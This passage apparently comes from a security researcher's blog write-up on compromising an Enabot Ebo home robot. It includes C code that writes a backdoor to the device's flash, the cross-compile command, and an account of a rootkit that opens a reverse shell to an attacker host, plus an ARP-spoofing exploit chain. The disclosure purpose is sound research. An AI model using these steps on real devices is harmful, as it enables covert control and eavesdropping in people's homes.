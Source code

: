 ```
    write(mtd2_fd, backdoor_buffer, numbytes); // write our message

    lseek(mtd2_fd, 0, SEEK_SET);              // go back to first block's start
    read(mtd2_fd, sanity_read_buf, sizeof(sanity_read_buf));// read the data

    // sanity check, now you see the message we wrote!    
    printf("Check wrote buf[%d] = 0x%02x\n", i, (unsigned int)sanity_read_buf[0]);

    free(backdoor_buffer);
    close(mtd2_fd);
    return 0;
}

```

We compile it with arm's gcc and specify the architecture

```arm-linux-gnueabi-gcc -march=armv5t --static install_backdoor.c -o install_backdoor```

Then we'll transfer the backdoor and the compiled binary to install it to ```/var/avi/mmc0/``` on the device.

When we run it, we can see it prints everything and installs the rookit.

<p style="text-align:center;"><img src="/assets/enabot_part3/install_rootkit.png" alt="ebocontrol" style="height: 50%; width:50%;"/></p>


Now we can reboot the device and hope it works! We wait until its fully booted and listen for incoming netcat connections on port 1234.

<p style="text-align:center;"><img src="/assets/enabot_part3/netcat_success.png" alt="ebocontrol" style="height: 50%; width:50%;"/></p>

And it worked! We connected and ran ```ps -A | grep hello``` to show that the hello script is running in the background. We were happy it worked too because if it didn't it may have been bricked till we took the chip off and reprogrammed it manually with the original firmware.

From here on out, as long as the ebo is on, it will be attempting to connect to our host computer where we can then have complete access to it. And since this a reverse shell, we could set it to connect to anything. Since it's initiating the connection, we could connect it from anywhere as long as it's connected to the internet. This could easily be used to fully control and record/listen through the device over WAN with a little more reversing and some changes to the ebo server. Just to reiterate though, this can only be done AFTER the backdoor firmware is installed over the LAN exploit.

Now we can add this to the rest of the exploit after we get our shell, and it will be fully automated from beginning to end.


# Full Exploit Chain

Stealing the TUTK ID using ARP spoofing

[![enabot](https://img.youtube.com/vi/F0D6iHDxa0U/0.jpg)](https://www.youtube.com/watch?v=F0D6iHDxa0U)

Using the stolen TUTK ID to get a shell on the EBO with an exploit (We have multiple Ebo's so the TUTK ID is different in the following video)

[![enabot](https://img.youtube.com/vi/ukVBCccegdo/0.jpg)](https://www.youtube.com/watch?v=ukVBCccegdo)

```